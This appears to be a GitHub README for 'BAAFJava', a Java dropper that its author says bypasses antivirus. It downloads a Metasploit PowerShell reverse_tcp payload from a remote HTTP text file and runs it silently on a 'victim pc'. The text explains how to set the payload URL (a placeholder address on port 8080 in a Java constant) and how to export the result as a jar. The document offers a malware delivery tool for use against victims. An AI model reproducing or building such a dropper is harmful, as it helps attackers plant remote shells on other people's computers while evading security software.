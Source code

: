 # BAAFJava
Bypass Any Antivirus Firewall
Metaesploit powershell exec in java, bypass any antivirus. 

 Bypass any anti-virus with  powershell payload
	 this shit get the txt uploaded powershell and insta-execute on the victim pc
	 u can create the powershell reverse_tcp payload script
	 on the metasploit framework
	 Script dont open the cmd console
	 Created by Gabriell H. Foda-se Use por sua responsabilidade!
	 
	 powershell file payload to exec change the HTTP variable
	 And export on a jar file
	private static final String HTTP = "http://xxx.xxx.xx.xx.xx:8080/xxx.txt";
                              You need to change this url /\ /\ /\
	
	
